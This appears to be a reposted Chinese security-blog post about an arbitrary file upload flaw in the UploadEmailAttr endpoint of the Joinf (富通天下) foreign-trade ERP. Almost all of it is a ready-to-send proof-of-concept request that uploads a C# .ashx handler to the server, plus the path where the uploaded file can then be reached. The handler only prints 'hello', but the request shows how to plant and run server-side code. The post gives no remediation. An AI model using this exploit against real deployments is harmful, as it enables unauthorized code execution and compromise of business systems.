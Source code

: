 #  富通天下外贸ERPUploadEmailAttr存在任意文件上传漏洞   
原创 骇客安全  骇客安全   2025-02-10 16:00  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MG7ibSbMGgCWwaPJHEIUoDNq0X8vjMaOg7GC4tpCapE23ib9Y8bKpcWibRLZHJ2TKeFE3xjOXuNDXjw/640?wx_fmt=png&from=appmsg "null")  
# 四、漏洞复现  
```
POST /JoinfApp/EMail/UploadEmailAttr?name=.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36(KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: application/x-www-form-urlencoded

<% @ webhandler language="C#" class="AverageHandler" %>
using System;
using System.Web;
public class AverageHandler : IHttpHandler
{
public bool IsReusable
{ get { return true; } }
public void ProcessRequest(HttpContext ctx)
{
ctx.Response.Write("hello");
}
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MG7ibSbMGgCWwaPJHEIUoDNBgNHJ3BVksuxcEuOSFm3Mq8KdsicBr2Z1Q0jgjNXbdcDZkSWNZicgnjg/640?wx_fmt=png&from=appmsg "null")  
  
文件上传位置  
```
/JoinfWebFile/temp/emailatta/202404/20240417D636C4D1F279410CB324E1AFFE28B141.ashx
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MG7ibSbMGgCWwaPJHEIUoDNH9oO2fMCpfJOyuic7GkjiciaLCILiaiaibJsqV5nrRJwAWAiaPRVTxqZO634g/640?wx_fmt=png&from=appmsg "null")  
  
  
